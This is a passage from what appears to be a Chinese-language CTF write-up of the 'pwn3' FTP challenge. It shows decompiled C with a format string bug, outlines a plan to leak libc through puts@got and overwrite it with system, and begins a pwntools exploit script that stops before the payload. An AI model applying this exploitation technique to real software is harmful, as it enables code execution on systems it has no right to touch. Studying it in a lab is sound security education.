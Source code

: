 首先分析程序，可以发现程序似乎主要实现了一个需密码登录的 ftp，具有 get，put，dir 三个基本功能。大概浏览一下每个功能的代码，发现在 get 功能中存在格式化字符串漏洞

```C
int get_file()
{
  char dest; // [sp+1Ch] [bp-FCh]@5
  char s1; // [sp+E4h] [bp-34h]@1
  char *i; // [sp+10Ch] [bp-Ch]@3

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 0x28);
      return printf(&dest);
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


```